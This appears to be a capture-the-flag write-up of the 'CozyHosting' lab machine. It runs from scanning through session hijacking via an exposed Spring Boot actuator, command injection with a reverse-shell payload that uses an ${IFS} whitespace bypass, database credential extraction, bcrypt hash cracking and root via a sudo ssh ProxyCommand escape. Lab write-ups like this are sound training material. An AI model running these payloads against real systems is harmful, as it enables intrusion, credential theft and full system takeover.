 start machine by scanning the given host:
	
	rustscan -a 10.10.11.230
output:
	
	PORT     STATE SERVICE  REASON
	22/tcp   open  ssh      syn-ack
	80/tcp   open  http     syn-ack
	8000/tcp open  http-alt syn-ack   #i'm actually not sure about this one
given the services i go on with the enumeration for port 80.
When we visit the site we can see that is an hosting site.
we can add the machine to the hosts:
	
	echo '10.10.11.230		cozyhosting.htb' >>/etc/hosts
now we can enumerate all the directories:
	
	feroxbuster -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,py,txt,bak
the only interesting thing here are those two directory for now?:
	
	/login
	/admin
	/logout
	/error
for the login and admin we don't have creds and i don't feel like we need to bruteforce them;
so we need to take a look at the /error page that is not common:
it presents like this:
	
	Whitelabel Error Page
	This application has no explicit mapping for /error, so you are seeing this as a fallback.

	Tue Sep 05 22:02:37 UTC 2023
	There was an unexpected error (type=None, status=999).
is a very unusual error page so i googled it and found this:
	
	https://springhow.com/this-application-has-no-explicit-mapping-for-error/
is an error related to a Spring Boot framework.
So now we know our technology and we can search for vulnerability and missconfigurations,
so i searched and found this:
	
	https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/spring-boot-misconfiguration-actuator-endpoint-security-disabled/
this vulnerability consits in exposing url for endpoint management and info
where there are the following urls opened:
	
	/actuator/env
	/actuator/health
	/actuator/sessions
in the last one i found something strange:
	
	{	
		"6F02172164B5008C30BE85A361E3895C":"kanderson",
		"7D9466F4C4BADF20C172CEA31664775F":"UNAUTHORIZED",
		"906A49C2F096052D190B2232AB51138B":"kanderson"
		,"81F059A6FC49E0624D70ABCBC5495175":"UNAUTHORIZED"
		,"457D7B0B2D93AEA45C8C8B96D6842B60":"kanderson"
		,"6D6E06448BA2F8332CD51B2B279F43B4":"kanderson"
	}
those seems like sessions, some of them are UNAUTHORIZED meanwhile some other has the "kanderson" name
so we can maybe try to do session hijacking with one of the kanderson's token,
in fact we are in in /admin!
now we are inside an admin dashboard.
The dashboard is pretty limited, in fact the only interactive thing is an imput box where we can
add our host via ssh.
When we try to insert test data we got this error:
	
	ssh: connect to host 10.10.14.133 port 22: Connection timed out
this error is actually a linux terminal error for ssh
so we can maybe do some command injection, so i try a revshell (this is what the request looks like):
	
	hostname=localhost&username=$(busybox nc 10.10.14.133 5555 -e /bin/bash)
the request go trough but we got this error:
	
	The host was not added!
	Username can't contain whitespaces!
so we need to bypass this problem;
in bash there are several way to bypass, but i know and often use this one:
	
	$(busybox${IFS}nc${IFS}10.10.14.120${IFS}4444${IFS}-e${IFS}/bin/bash)
the ${IFS} variable is a space sostitution in bash.
so after starting a listener on our local machine we can execute command:
	
	python3 -m pwncat -lp 4444
so we got our first shell on the machine and we can start enumerate:
	
	(remote) app@cozyhosting:/app$ ls
							 cloudhosting-0.0.1.jar
we are the app user and there is this file in app directory,
this is the file for the web application running on port 80 so we can download the file and try analyze whats in it:
	
	(local) pwncat$ download cloudhosting-0.0.1.jar ./app.jar
so now we have the file on our local machine and we can analyze it by extracting all the file inside it:
	
	jar xvf app.jar
so now we have the file list of the app
in a particular file we can see some credentials for something that look like the database for the web app,
in fact inside this file:
	
	./BOOT-INF/classes/application.properties
we can see those credentials:
	
	spring.datasource.platform=postgres
	spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
	spring.datasource.username=postgres
	spring.datasource.password=V[REDACTED]R
so we can try access the db on remote machine with this command:
	
	psql -h localhost -U postgres
and inserting the password we found on the file.
Now we need to navigate a little bit the db:
	
	SELECT datname FROM pg_database;
output:
	
	   datname   
	-------------
	 postgres
	 cozyhosting
	 template1
	 template0
with this command we listed all the db present.
So now we can log inside the web app db like this:
	
	psql -h localhost -d cozyhosting -U postgres
after the password again we can enumerate the tables inside this db:
	
	SELECT table_name FROM information_schema.tables;
output:

	    tables
	-------------
	users
 	hosts
 	[...]
the users table seems to be interesting
so we dump all the content from the users table:
	
	SELECT * FROM users;
output:

	   name    |                           password                           | role  
	-----------+--------------------------------------------------------------+-------
	 kanderson | $2a$10$E/[REDACTED]eH58zim | User
	 admin     | $2a$10$Sp[REDACTED]VO8dm | Admin
this is very interesting so we can try to crack the admin pass
and see if we can use them anywhere.
	
	echo '$2a$10$Sp[REDACTED]VO8dm' > admin_hash_cozyhosting
After running this:
	
	hashcat admin_hash_cozyhosting
hashcat tells us that is:
	
	3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
so lets start cracking:
	
	hashcat admin_hash_cozyhosting -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
output:
	
	$2a$10$Sp[REDACTED]VO8dm:m[REDACTED]d
so we found the password!!
we can try and log with the only user that is on the machine with that password:
	
	su josh
after inserting the pass we can submit the user flag and start the privesc
we start with classic check of sudo ability:
	
	sudo -l
output:
	
	(root) /usr/bin/ssh *
i searched that online and found this:
	
	https://gtfobins.github.io/gtfobins/ssh/
when u read GTFO bins in url u know u are gonna get root =)
in fact we can analyze the last case where we have sudo ability on the binary and we can copy the
exploit that is on the site:
	
	sudo /usr/bin/ssh -o ProxyCommand=';/bin/bash 0<&2 1>&2' x
and guess who we are now:
	
	root@cozyhosting:/home/josh# 
